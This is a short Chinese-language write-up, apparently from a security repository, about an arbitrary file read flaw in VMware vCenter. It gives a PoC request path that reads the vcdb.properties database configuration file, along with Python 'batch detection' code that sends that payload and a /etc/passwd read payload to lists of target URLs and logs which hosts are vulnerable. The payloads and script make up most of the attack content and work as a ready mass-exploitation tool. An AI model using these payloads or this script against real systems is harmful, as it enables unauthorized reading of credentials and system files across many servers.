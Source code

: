 # Vmware Vcenter 任意文件读取批量检测

早上看到很多大佬发了该漏洞的概况，目前还没有CVE编号
**背景**
VMware vCenterServer 提供了一个可伸缩、可扩展的平台，为 虚拟化管理奠定了基础。VMware vCenter Server（以前称为 VMware VirtualCenter），可集中管理 VMware vSphere 环境，与其他管理平台相比，极大地提高了 IT 管理员对虚拟环境的控制。VMware vCenter Server：提高在虚拟基础架构每个级别上的集中控制和可见性，通过主动管理发挥 vSphere 潜能，是一个具有广泛合作伙伴体系支持的可伸缩、可扩展平台。

监测到twitter平台上，有人发出任意文件读取漏洞，目前暂未申请cve

**影响范围**
6.5u1该漏洞被修复。

**PoC**
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

**批量脚本核心代码**
备注：经验证有linux的环境，所以加了linux下的简单检测，payload通用

```python
payloads = [r'/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties',r'/eam/vib?id=/etc/passwd']
def http_request(url):
    try:
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        for payload in payloads:
            vulurl = url + payload
            print(vulurl)
            r = requests.get(url=vulurl, timeout=10, verify= False)
            if r.status_code == 200 and ('driver' in r.text or 'root:' in r.text):
                print("\033[1;40;32m[Vuln] {}\033[0m".format(vulurl))
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
                    return
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
    except Exception as err:
        print(err)
```

**检测结果**

![](../img/71.png)

原文链接：https://www.t00ls.net/thread-58294-1-1.html 

参考Twitter：https://twitter.com/ptswarm/status/1316016337550938122 

参考文章：https://blog.csdn.net/weixin_43650289/article/details/109066534

